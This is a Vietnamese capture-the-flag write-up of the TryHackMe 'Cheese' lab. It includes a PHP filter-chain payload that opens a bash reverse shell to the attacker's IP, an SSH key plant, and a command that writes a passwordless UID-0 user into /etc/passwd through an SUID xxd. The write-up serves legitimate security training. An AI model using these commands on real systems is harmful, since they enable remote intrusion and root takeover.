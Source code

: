 <div align="center">
    <h1>🧀 TryHackMe Cheese CTF Writeup 🐭</h1>
</div>

## 🚀 1. Khởi động target

![Start taget](Images/1.png)

## 🔍 2. Recon

- Taget là một trang web `The Cheese Shop`

![Hoangdeptrai](Images/2.png)

- Sử dụng `feroxbuster` quét các file, thư mục ẩn của mục tiêu:

```bash
feroxbuster -u http://10.10.140.148/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,config
```

![Hoangdeptrai](Images/3.png)

- Phát hiện file có tên `messages.html` có dấu hiệu có thể khai thác

![Hoangdeptrai](Images/4.png)

## 🔑 3. Khai thác trang web

- Chèn một số payload phát hiện trang này có thể chứa lỗ hổng `Local File Inclusion` (LFI)

![Hoangdeptrai](Images/5.png)

- Sử dụng tool `php_filter_chain_generator` để tạo payload khai thác RCE dựa trên lỗ hổng này: https://github.com/synacktiv/php_filter_chain_generator

- Sử dụng lệnh sau, kết hợp với ip máy tấn công: `10.8.31.209` để tạo payload: 
```bash 
python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/ 10.8.31.209/4444 0>&1\" '); ?>" | grep "^php" > payload2.txt
```
- Payload được lưu trữ trong file `payload2.txt`, chèn payload vào trường chứa lỗ hổng LFI.

![Hoangdeptrai](Images/6.png)

- Thêm thành công, nghe cổng `4444`, nhận được reverse shell:

![Hoangdeptrai](Images/7.png)

- Tuy nhiên khi thử đọc file `user.txt` thì quyền truy cập bị từ chối, vì vậy cần tạo ssh key với mục đích truy cập từ xa tới user `comte` để có quyền độc file user:

![Hoangdeptrai](Images/8.png)

![Hoangdeptrai](Images/9.png)

- Thêm SSH key vào máy mục tiêu.

![Hoangdeptrai](Images/10.png)

- SSH thành công tới user `comte`

![Hoangdeptrai](Images/11.png)

- Đọc file `user.txt` nhận được flag 🚩

![Hoangdeptrai](Images/12.png)

![Hoangdeptrai](Images/13.png)

## ⚠️ 4. Leo quyền lên root shell

- Dùng lệnh `sudo -l` để kiểm tra quyền thực thi các lệnh sau mà không cần nhập mật khẩu.

![Hoangdeptrai](Images/14.png)

- Trong đó có thể kiểm soát `exploit.timer`, điều này mở ra cơ hội chèn một `service` độc hại
- Nội dung của `exploit.timer` có dạng như sau:

![Hoangdeptrai](Images/15.png)

- `exploit.timer` là một `systemd timer`, có thể chạy một service (`exploit.service`) theo thời gian định sẵn. Nội dung của `exploit.service`:

![Hoangdeptrai](Images/16.png)

- Service này tạo ra một bản sao của `xxd` trong `opt` và cấp cho nó quyền `suid` và quyền `execute`.

- Lợi dụng điều đó, sử dụng câu lệnh sau:
```bash
echo "hoang: :0:0:hoang:/root:/bin/bash" | xxd | /opt/xxd -r - "/etc/passwd" 
```
- Lệnh này tạo thêm một user tên “hoang” vào `etc/password`

![Hoangdeptrai](Images/17.png)

- Sau đó đăng nhập vào user, user này thuộc group id root, ta có thể đọc được file `root.txt`

![Hoangdeptrai](Images/18.png)

![Hoangdeptrai](Images/19.png)

=> Hoàn thành bài lab 🔥🔥🔥

![Hoangdeptrai](Images/20.png)
